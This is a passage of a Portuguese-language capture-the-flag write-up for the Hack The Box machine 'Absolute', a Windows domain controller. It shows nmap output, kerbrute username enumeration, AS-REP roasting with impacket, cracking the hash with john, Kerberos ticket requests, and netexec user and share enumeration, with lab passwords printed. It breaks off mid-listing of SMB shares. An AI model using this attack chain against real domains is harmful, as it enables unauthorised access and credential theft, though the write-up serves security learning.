









# Writeup absolute - [PT-BR]

## Sumário

- [Scan](#scan)
- [Enumeration & Exploitation](#enumeration--exploitation)
  - [Auth as d.klay](#auth-as-dklay)
  - [Auth as svc_smb](#auth-as-svc_smb)
  - [Auth as m.lovegod](#auth-as-mlovegod)
  - [Shell as winrm_user](#shell-as-winrm_user)
    - [Método Um - Certipy](#método-um---certipy)
    - [Método Dois - PyWhisker e Gettgtpkinit](#método-dois---pywhisker-e-gettgtpkinit)
- [Privilege Escalation](#privilege-escalation)

## Scan

```bash
Nmap scan report for 10.129.229.59
Host is up (0.22s latency).
Not shown: 65378 closed tcp ports (reset), 131 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Absolute
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-30 02:16:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355ce674d7ee8abe5d1ec4c8482550b
|_SHA-1: c9cba13ebe47d98940d592e2b9efcfff9ef453e5
|_ssl-date: 2024-01-30T02:17:18+00:00; +7h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355ce674d7ee8abe5d1ec4c8482550b
|_SHA-1: c9cba13ebe47d98940d592e2b9efcfff9ef453e5
|_ssl-date: 2024-01-30T02:17:19+00:00; +7h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355ce674d7ee8abe5d1ec4c8482550b
|_SHA-1: c9cba13ebe47d98940d592e2b9efcfff9ef453e5
|_ssl-date: 2024-01-30T02:17:18+00:00; +7h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355ce674d7ee8abe5d1ec4c8482550b
|_SHA-1: c9cba13ebe47d98940d592e2b9efcfff9ef453e5
|_ssl-date: 2024-01-30T02:17:19+00:00; +7h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 2012|2016|7|10|2008|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_10:1511 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2016 (86%), Microsoft Windows 7 SP1 (85%), Microsoft Windows Server 2012 Data Center (85%), Microsoft Windows 10 1511 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (85%), Microsoft Windows Windows 7 SP1 (85%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (85%), Microsoft Windows Vista SP1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2024-01-30T02:17:08
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   221.70 ms 10.10.14.1
2   221.89 ms 10.129.229.59

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 29 16:17:20 2024 -- 1 IP address (1 host up) scanned in 355.11 seconds
```

## Enumeration & Exploitation

​	Ao iniciar a máquina, precisamos adicionar o domínio e o seu respectivo FQDN ao `/etc/hosts`, para isso podemos olhar o resultado do scan ou utilizar o **netexec**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ netexec smb 10.129.229.59                                                          
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
```

​	Vamos adicioná-los ao arquivo.

```bash
┌──(root㉿kali)-[/home/…/machines/to-do/absolute/files]
└─# echo "10.129.229.59 absolute.htb dc.absolute.htb" >> /etc/hosts                                                                                                                                                                               
┌──(root㉿kali)-[/home/…/machines/to-do/absolute/files]
└─# cat /etc/hosts                      
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.129.229.59 absolute.htb dc.absolute.htb
```

### Auth as d.klay

​	Com os o domínio e o FQDN adcionado no arquivo, podemos partir para enumerar a máquina.

​	Depois de um tempo enumerando os servicos e não encontrar nenhum caminho muito óbvio, comecei a analisar as fotos existentes na página WEB.



​	Ao baixá-las e analisar seus metadados usando o **exiftool** podemos ver que elas possuem um campo chamado "Author" que possue um nome.



​	Podemos utilizar esse nomes para criar uma wordlist de potenciais usuários que ficará dessa maneira:

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ cat names.txt            
Michael Chaffrey
James Roberts
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith
```

​	Com os nomes em uma wordlist, podemos agora gerar uma wordlist de potenciais nome de usuários do domínio e para isso utilizaremos o **john**.

- Referência: https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name


```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ john --wordlist=names.txt --rules=Login-Generator --stdout > usernames.txt
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
474p 0:00:00:00 100.00% (2024-01-31 06:39) 5266p/s SMITH-N
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ wc -l usernames.txt 
474 usernames.txt
```

​	Com a lista em mãos, podemos utilizar o **kerbrute** para validar quais usuários existem na máquina.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ /opt/kerbrute/dist/kerbrute_linux_amd64 userenum -d absolute.htb usernames.txt --dc dc.absolute.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/31/24 - Ronnie Flathers @ropnop

2024/01/31 06:40:16 >  Using KDC(s):
2024/01/31 06:40:16 >   dc.absolute.htb:88

2024/01/31 06:40:17 >  [+] VALID USERNAME:       m.chaffrey@absolute.htb
2024/01/31 06:40:17 >  [+] VALID USERNAME:       j.roberts@absolute.htb
2024/01/31 06:40:17 >  [+] VALID USERNAME:       s.osvald@absolute.htb
2024/01/31 06:40:17 >  [+] VALID USERNAME:       n.smith@absolute.htb
2024/01/31 06:40:17 >  [+] VALID USERNAME:       j.robinson@absolute.htb
2024/01/31 06:40:18 >  [+] d.klay has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$d.klay@ABSOLUTE.HTB:0e7902de34f1dbd0ae2efa38c9165d30$a0582af45e5c72c08425f3f557047e26621dc93a71212e68affad5214caa0ce2a33307f273f1ee4d938fd5133fdebe15318d631d1542ba382b00a2f2f6c5880e01b277bfb779f2469b5c649ded7ce53173a86b9580933fcb7feb957768720ff80c62f4a92c28985ca32286a417144179eb009039574d113ce2bac2feea9db40d0d5cd6d9a8095c480617dc7746e145490ae9a28e41304eccb901e47cfca2cf1365e3366ad4dea4fb488a362a4d77e69b5fd95d3df62a4c14b626de2b4e4026d6ed50b671a8b482136cc94d854cf9cc12905be411d5a86f5181437390df78fe720731593616766681165ab43cf86b5bfe7a6bbb47bd8024aab34057039200f335                                                                                                                                                                                 
2024/01/31 06:40:18 >  [+] VALID USERNAME:       d.klay@absolute.htb
```

​	Ao executar o kerbrute temos a informacao não só dos usuário existentes na máquina, como também, que o usuário **d.klay** não requer kerberos pre-authentication, ou seja, é um usuário vulnerável a **ASREPRoast**.

​	Com isso, podemos utilizar o **impacket-GetNPUsers** para pegar o hash e quebrá-lo com o **john**.

​	**OBS:** Como já havia quebrado o hash, utilizei a opcão `--show` para ver a senha novamente.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-GetNPUsers absolute.htb/ -usersfile user.txt -no-pass -request -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User j.robinson@absolute.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith@absolute.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald@absolute.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.roberts@absolute.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey@absolute.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@absolute.htb@ABSOLUTE.HTB:595b731746ddc8923b78b245677b0c9d$d28a181e11745bb47c3312254330f16849a4a8e013b2527b790c994246511aa19063b1b2b6a053ad6dbb4d6327c2e3e32355740cd79134279f995f369efe13f2384a73cfdcf4e162a23f0cbc7fa5802512f4c94a5ef9a6f07936280f4f52cfd73b5b1ed10901461d39462c031b1cc398d3f4ff33ee70da2f2b79d01a1d83529ffa0d730164165aa55a7c852fbb49e84d978c8b007d7ad5f24e1e4dfeb29746bdf55170645d9483add9cf3c8cd31eada06039e0c91bb926073f349fe16e915c91a78c16fecfb1d601016c66bbba548672c11a303bf32a6c84a84720951125cf8dfd2001e9aa4e6a675c04bc6a
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ john --show hash.txt                                     
$krb5asrep$23$d.klay@absolute.htb@ABSOLUTE.HTB:Darkmoonsky248girl

1 password hash cracked, 0 left
```

​	Com as credenciais em mãos `d.klay:Darkmoonsky248girl` podemos tentar autenticar e ver o que conseguimos.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ netexec smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl'
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION
```

​	Ao tentar autenticar nos deparamos com um erro "STATUS_ACCOUNT_RESTRICTION". Após um tempo pesquisando, encontrei a seguinte página da microsoft https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-apds/639c2244-b6d5-4ca3-8ca0-74fe787cbae6, que pode nos indicar que a autenticacão via NTLM está restrita para esse usuário.

​	Com isso, podemos tentar nos autenticar via kerberos usando ticket. Para fazer isso, usaremos o **impacket-getTGT** para gerar o ticket `.ccache`. Mas, antes de fazer isso, temos q sincronizar o **clock skew** com a máquina usando o **ntpdate**.

```
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip dc.absolute.htb             
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)                                                                                                                                                                                      
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ sudo ntpdate -u dc.absolute.htb
2024-01-31 17:34:36.941587 (-0300) +35999.605834 +/- 0.148594 dc.absolute.htb 10.129.229.59 s1 no-leap
CLOCK: time stepped by 35999.605834

┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in d.klay.ccache
```

​		Com o arquivo gerado, podemos utilizá-lo para ver se conseguimos agora acessar a máquina.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=d.klay.ccache netexec smb dc.absolute.htb --use-kcache        
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay from ccache
```

### Auth as svc_smb

​	Com o acesso do usuário **d.klay** podemos enumerar os usuários da máquina utilizando o **netexec** e ao fazer isso, podemos encontrar uma descricão da possível senha de um dos usuários. Esssa enumeracão pode ser feita utilizando o **smb** ou **ldap**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=d.klay.ccache netexec smb dc.absolute.htb --use-kcache --users
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay from ccache 
SMB         10.129.229.59   445    DC               [*] Trying to dump local users with SAMRPC protocol
SMB         10.129.229.59   445    DC               [+] Enumerated domain user(s)
SMB         10.129.229.59   445    DC               absolute.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.129.229.59   445    DC               absolute.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.229.59   445    DC               absolute.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.129.229.59   445    DC               absolute.htb\J.Roberts                      
SMB         10.129.229.59   445    DC               absolute.htb\M.Chaffrey                     
SMB         10.129.229.59   445    DC               absolute.htb\D.Klay                         
SMB         10.129.229.59   445    DC               absolute.htb\s.osvald                       
SMB         10.129.229.59   445    DC               absolute.htb\j.robinson                     
SMB         10.129.229.59   445    DC               absolute.htb\n.smith                        
SMB         10.129.229.59   445    DC               absolute.htb\m.lovegod                      
SMB         10.129.229.59   445    DC               absolute.htb\l.moore                        
SMB         10.129.229.59   445    DC               absolute.htb\c.colt                         
SMB         10.129.229.59   445    DC               absolute.htb\s.johnson                      
SMB         10.129.229.59   445    DC               absolute.htb\d.lemm                         
SMB         10.129.229.59   445    DC               absolute.htb\svc_smb                        AbsoluteSMBService123!
SMB         10.129.229.59   445    DC               absolute.htb\svc_audit                      
SMB         10.129.229.59   445    DC               absolute.htb\winrm_user                     Used to perform simple network tasks                                                                                                                                                                                 
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=d.klay.ccache netexec ldap dc.absolute.htb --use-kcache --users
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.59   389    DC               [+] absolute.htb\D.Klay from ccache 
LDAP        10.129.229.59   389    DC               [*] Total of records returned 20
LDAP        10.129.229.59   389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        10.129.229.59   389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        10.129.229.59   389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        10.129.229.59   389    DC               J.Roberts                      
LDAP        10.129.229.59   389    DC               M.Chaffrey                     
LDAP        10.129.229.59   389    DC               D.Klay                         
LDAP        10.129.229.59   389    DC               s.osvald                       
LDAP        10.129.229.59   389    DC               j.robinson                     
LDAP        10.129.229.59   389    DC               n.smith                        
LDAP        10.129.229.59   389    DC               m.lovegod                      
LDAP        10.129.229.59   389    DC               l.moore                        
LDAP        10.129.229.59   389    DC               c.colt                         
LDAP        10.129.229.59   389    DC               s.johnson                      
LDAP        10.129.229.59   389    DC               d.lemm                         
LDAP        10.129.229.59   389    DC               svc_smb                        AbsoluteSMBService123!
LDAP        10.129.229.59   389    DC               svc_audit                      
LDAP        10.129.229.59   389    DC               winrm_user                     Used to perform simple network tasks
```

​	Ao tentar autenticar com as credenciais ecnontradas `svc_smb:AbsoluteSMBService123!`, percebemos que recebemos o mesmo erro do usuário **d.klay**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ netexec smb dc.absolute.htb -u svc_smb -p 'AbsoluteSMBService123!'         
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [-] absolute.htb\svc_smb:AbsoluteSMBService123! STATUS_ACCOUNT_RESTRICTION
```

​	Então, também é necessário gerar um ticket para esse usuário utilizando o **impacket-getTGT**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-getTGT 'absolute.htb/svc_smb:AbsoluteSMBService123!' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in svc_smb.ccache

┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=svc_smb.ccache netexec smb dc.absolute.htb --use-kcache
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\svc_smb from ccache
```

### Auth as m.lovegod

​	Com o usuário **svc_smb** podemos perceber que o mesmo possui acesso a um diretório do SMB que outros usuários, até então, não possuíam.

> Usuário **d.klay**
>
> ```bash
> ┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
> └─$ KRB5CCNAME=d.klay.ccache netexec smb dc.absolute.htb --use-kcache --shares
> SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
> SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay from ccache 
> SMB         10.129.229.59   445    DC               [-] Error getting user: list index out of range
> SMB         10.129.229.59   445    DC               [*] Enumerated shares
> SMB         10.129.229.59   445    DC               Share           Permissions     Remark
> SMB         10.129.229.59   445    DC               -----           -----------     ------
> SMB         10.129.229.59   445    DC               ADMIN$                          Remote Admin
> SMB         10.129.229.59   445    DC               C$                              Default share
> SMB         10.129.229.59   445    DC               IPC$            READ            Remote IPC
> SMB         10.129.229.59   445    DC               NETLOGON        READ            Logon server share 
> SMB         10.129.229.59   445    DC               Shared                          
> SMB         10.129.229.59   445    DC               SYSVOL          READ            Logon server share
> ```

> Usuário **svc_smb**
>
> ```bash
> ┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
> └─$ KRB5CCNAME=svc_smb.ccache netexec smb dc.absolute.htb --use-kcache --shares
> SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
> SMB         10.129.229.59   445    DC               [+] absolute.htb\svc_smb from ccache 
> SMB         10.129.229.59   445    DC               [-] Error getting user: list index out of range
> SMB         10.129.229.59   445    DC               [*] Enumerated shares
> SMB         10.129.229.59   445    DC               Share           Permissions     Remark
> SMB         10.129.229.59   445    DC               -----           -----------     ------
> SMB         10.129.229.59   445    DC               ADMIN$                          Remote Admin
> SMB         10.129.229.59   445    DC               C$                              Default share
> SMB         10.129.229.59   445    DC               IPC$            READ            Remote IPC
